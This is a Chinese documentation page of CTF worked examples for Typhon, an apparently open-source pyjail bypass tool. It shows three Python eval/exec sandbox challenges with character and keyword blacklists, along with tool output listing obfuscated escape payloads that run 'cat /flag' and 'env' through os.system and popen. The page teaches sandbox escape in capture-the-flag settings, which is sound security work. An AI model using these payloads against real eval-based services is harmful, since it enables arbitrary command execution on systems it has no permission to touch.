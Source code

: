 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF 2025-Pyjail 2
---------------------------------------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 :func:`bypassRCE` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::
    :emphasize-lines: 34

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

HNCTF 2022-calc_jail_beginner_level1
----------------------------------------------------------------

.. code-block:: python
    :linenos:
    :emphasize-lines: 6,29

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    print('Answer: {}'.format(eval(input_data)))

同上题，我们将 ``eval`` 所包含的行改为对应的绕过函数。将黑名单 ``"'`ib`` 作为 :attr:`~bypassRCE.banned_chr` 参数传入即可。（我们假设flag在 ``/flag`` ）

此题中，为了追求更好的演示效果，我们假设这个程序不支持后续的输入（否则 ``help`` 直接可以解出，可以查看 `此题 <https://typhonbreaker.readthedocs.io/zh-cn/latest/EXAMPLE.html#pwnyctf-2025-pyjail-2>`_ 的说明）。此处我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``

.. code-block:: python
    :linenos:
    :emphasize-lines: 29,30

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    import Typhon
    Typhon.bypassRCE('cat /flag', banned_chr = '"\'`ib', interactive = False)

运行，使程序进行到 :func:`bypassRCE` 函数即可：

.. code-block::
    :emphasize-lines: 41

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(0 payload found): None
    type(1 payload found): type
    object(2 payloads found): str().__class__.__mro__[1]
    bytes(3 payloads found): type(str().encode())
    builtins set(10 payloads found): vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)]
    builtins module(24 payloads found): all.__self__
    builtins(1 payload found): __builtins__
    import(6 payloads found): getattr(all.__self__,chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))
    load_module(7 payloads found): all.__self__.__loader__.load_module
    modules(1 payload found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115)).modules
    os(16 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115))
    subprocess(16 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115))
    uuid(16 payloads found): all.__self__.__loader__.load_module(chr(117)+chr(117)+chr(105)+chr(100))
    pydoc(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(121)+chr(100)+chr(111)+chr(99))
    multiprocessing(16 payloads found): all.__self__.__loader__.load_module(chr(109)+chr(117)+chr(108)+chr(116)+chr(105)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)+chr(105)+chr(110)+chr(103))
    codecs(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(111)+chr(100)+chr(101)+chr(99)+chr(115))
    warnings(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(97)+chr(114)+chr(110)+chr(105)+chr(110)+chr(103)+chr(115))
    base64(16 payloads found): all.__self__.__loader__.load_module(chr(98)+chr(97)+chr(115)+chr(101)+chr(54)+chr(52))
    importlib(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(108)+chr(105)+chr(98))
    weakref(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(101)+chr(97)+chr(107)+chr(114)+chr(101)+chr(102))
    reprlib(16 payloads found): all.__self__.__loader__.load_module(chr(114)+chr(101)+chr(112)+chr(114)+chr(108)+chr(105)+chr(98))
    sys(17 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115))
    linecache(16 payloads found): all.__self__.__loader__.load_module(chr(108)+chr(105)+chr(110)+chr(101)+chr(99)+chr(97)+chr(99)+chr(104)+chr(101))
    io(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(111))
    ctypes(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(116)+chr(121)+chr(112)+chr(101)+chr(115))
    profile(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(114)+chr(111)+chr(102)+chr(105)+chr(108)+chr(101))
    timeit(16 payloads found): all.__self__.__loader__.load_module(chr(116)+chr(105)+chr(109)+chr(101)+chr(105)+chr(116))
    __import__2RCE(95 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    +++++++++++Jail broken+++++++++++


Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：

- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。

- 禁止使用除 ``printable`` 字符集以外的字符。

- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 :func:`bypassRCE` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 :func:`bypassRCE` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。 `想提升性能？ <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#id3>`_ 

.. code-block::
    :emphasize-lines: 35

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。
